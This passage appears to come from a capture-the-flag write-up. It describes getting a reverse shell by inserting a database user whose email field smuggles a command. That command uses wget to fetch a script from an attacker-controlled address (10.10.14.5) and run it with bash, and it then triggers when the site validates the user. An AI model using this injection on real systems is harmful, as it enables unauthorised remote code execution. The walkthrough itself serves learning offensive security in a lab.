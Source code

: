 <figure><img src="../../.gitbook/assets/image (126) (1).png" alt=""><figcaption></figcaption></figure>

However, based on this code, it uses some kind of APP\_SECRET, which I'm too lazy to find. So in this case, we can instead opt to add another user into the database with a command appended to the end in order to gain a reverse shell as the www-data.

We can host a malicious script on a HTTP server and use this insert command.

{% code overflow="wrap" %}
```
insert into users(name,email,email_verified_at,password,remember_token,created_at,updated_at,user_type) values ('testing','testing@ezpwn|wget 10.10.14.5/shell.sh && bash shell.sh', '2022-01-02 20:14:55','ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f','2KTrBJhwcS','2022-01-02 20:15:00','2022-01-02 20:15:00','Member');
```
{% endcode %}

Then we can find our user on the website.

<figure><img src="../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

Once we hit validate, we will get a shell back as the application user.

<figure><img src="../../.gitbook/assets/image (97) (1).png" alt=""><figcaption></figcaption></figure>
